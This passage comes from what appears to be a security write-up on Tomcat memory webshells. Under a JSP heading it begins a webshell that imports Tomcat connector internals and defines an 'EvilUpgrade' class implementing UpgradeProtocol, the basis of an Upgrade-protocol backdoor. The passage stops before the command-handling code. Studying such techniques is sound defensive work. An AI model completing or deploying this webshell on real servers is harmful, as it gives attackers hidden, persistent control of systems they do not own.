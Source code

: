 ```java
    }
}
```

![](img/8.png)

### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.*" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
  class EvilUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean isSecure) {
      return null;
    }

    @Override
    public byte[] getAlpnIdentifier() {
      return new byte[0];
    }

    @Override
    public String getAlpnName() {
      return null;
```